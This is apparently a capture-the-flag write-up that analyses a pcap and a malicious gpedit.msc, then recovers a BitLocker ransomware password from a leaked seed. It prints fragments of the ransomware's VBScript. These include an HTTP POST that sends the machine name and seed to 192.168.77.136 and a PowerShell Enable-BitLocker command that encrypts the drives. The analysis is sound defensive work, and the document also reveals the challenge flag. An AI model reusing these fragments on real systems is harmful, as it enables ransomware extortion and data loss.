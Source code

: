 # Honey, I shrunk the skids
Solved by Danzi, fjellape & Octagone 
# Challenge
Author: LOLASL

>My computer went to ransomland and all I got was this lousy pcap! Can you please help me unlock the `FlagDisk.vhdx?`

# Provided challenge files

- [FlagDisk.vhdx](https://platform.ept.gg/api/challenge/shrunk/file)
- [shrunk.pcap](https://platform.ept.gg/api/challenge/shrunk/file)

# Writeup
Looking at the PCAP, we see two interesting HTTP packets. The IP address 192.168.77.167 was seen downloading a file named _gpedit.zip_ and later uploading data to `/updatelog` on the IP address 192.168.77.136

![PCAP](pcap.png)
---
Looking at `/updatedlog` we can see the text.
```http
POST /updatelog HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded; Charset=UTF-8
Accept: */*
Accept-Language: fr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Content-Length: 40
Host: 192.168.77.136

upgrade=REVTS1RPUC01OUMxQzNECTQzOTA2Ljgz
```
Quick base64 decode later we get:

```http
upgrade=DESKTOP-59C1C3D	43906.83
```
Ok, that looks like a computername and a random number, not sure what that does yet, maybe the _gpedit.zip_ file can help us find out what that is.
We use the `File -> Export Objects -> HTTP` in Wireshark to extract _gpedit.zip_ from the PCAP and from the zip file we get a file called _gpedit.msc_.

![gpedit.msc](gpedit1.png)

Opening it up in VSCode, we see that it's just one massive XML file. Scrolling through, we spot a part where it's using `xls.loadXML` to load an XML-formatted string. The string looks like its url encoded, so we run it through URL decode in CyberChef, and voilà! We get the entire readable code.

- [Readable_gpedit.txt](Readable_gpedit.txt)

Examining the script, we observe that it generates a seed from various system properties, including used and free memory, total and free space, performance metrics, and network data. This seed is then utilized to generate a 64-character string using a random selection from a predefined set of characters.
```vbs
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```

Here we can see the `"computerName" Tab "seed"` is send to 192.168.77.136 in a file called `/updatelog`, lucky us, we got the `/updatelog` data from the computer that got "ransomwared" from the pcap.
```vbs
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```
Upon further inspection, we see that the script uses `strRandom` as the BitLocker password, formatted as "'strRandom'" (Chr(34) = " ,Chr(39) = '). The script uses a PowerShell command to convert strRandom into a secure string using `ConvertTo-SecureString` and then applies it as a password to enable BitLocker on the drives.

```vbs
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If
```
After analyzing the script and understanding how it works, we are pretty sure that the value `43906.83` found in the `/updatelog` within the PCAP file is likely the seed used to set the BitLocker password on the disk. By knowing this exact seed, we can modify the `strRandom` function from the original script and replace the seed with `43906.83`, that should yield the same password used by the ransomware.
```vbs
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = 43906.83 ' Replace the seed with the one in the PCAP.
Rnd(-1)
Randomize seed
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)
    strRandom = strRandom & randomChar
Next

WScript.Echo strRandom ' prints out strRandom in a msgbox
```
voila, we get out the password:

![password](password.png)

`_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb`

Now we only need to mount the disk and enter the password

![mount](mount.png)

![flag](flag.png)

and there is the flag 
`EPT{it_works_the_machine_works!}`
